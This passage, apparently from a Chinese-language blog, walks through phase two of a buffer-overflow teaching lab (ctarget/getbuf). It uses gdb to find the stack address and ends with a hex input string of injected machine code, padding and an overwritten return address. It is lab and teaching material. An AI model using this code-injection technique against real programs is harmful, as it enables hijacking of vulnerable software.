 那么现在问题来了，我们要如何才能让机器开始执行这几行代码呢？简单，利用第一阶段的方式，跳转到缓冲区所在的位置即可，那么问题又来了，缓冲区的位置在哪里呢？这个就需要实际跑一次程序，用 gdb 查看了。

和上次的试验一样 `gdb ctarget` 开始调试，因为我想知道缓冲区从哪里开始，所以在 `getbuf` 中看看 `%rsp` 的值即可，我们在 `0x401828` 处设置断点，然后查看对应寄存器的值：

![](/images/14554204273695.jpg)

可以看到 `%rsp` 指向的位置是 `0x5560f2d8`，这样我们就可以得到需要输入的字符串了：

```
48 c7 c7 ee 
4f 37 45 68 
60 18 40 00
c3 00 00 00
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
d8 f2 60 55
```
